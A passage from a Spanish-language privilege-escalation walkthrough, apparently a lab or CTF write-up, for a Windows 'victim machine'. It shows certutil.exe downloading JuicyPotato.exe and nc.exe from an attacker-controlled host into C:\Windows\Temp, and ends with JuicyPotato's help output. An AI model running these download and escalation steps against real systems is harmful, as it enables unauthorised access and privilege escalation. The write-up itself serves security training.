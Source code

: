 * En la máquina víctima, crea un directorio en el directorio **/Temp**:
```batch
PS C:\> cd Windows/Temp
PS C:\Windows\Temp> mkdir Privesc
    Directory: C:\Windows\Temp
Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         4/25/2023  10:46 PM            Privesc                           
PS C:\Windows\Temp> cd Privesc
PS C:\Windows\Temp\Privesc>
```

* Usa **certutil.exe** para descargar ambos archivos:
```batch
PS C:\Windows\Temp\Privesc> certutil.exe -urlcache -split -f http://Tu_IP:8000/JuicyPotato.exe JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
PS C:\Windows\Temp\Privesc> dir
    Directory: C:\Windows\Temp\Privesc
Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         4/25/2023  10:48 PM     347648 JuicyPotato.exe                   
PS C:\Windows\Temp\Privesc> certutil.exe -urlcache -split -f http://Tu_IP:8000/nc.exe nc.exe
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.
PS C:\Windows\Temp\Privesc> dir
    Directory: C:\Windows\Temp\Privesc
Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         4/25/2023  10:48 PM     347648 JuicyPotato.exe                   
-a---         4/25/2023  10:48 PM      59392 nc.exe
```
Listo, ahora usemos el **Juicy Potato**.

<h2 id="Juicy">Usando el Juicy Potato</h2>

Para ver la forma de usarlo, usemos el parámetro **-h**:
```batch
PS C:\Windows\Temp\Privesc> .\JuicyPotato.exe -h
JuicyPotato v0.1 
Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port
Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
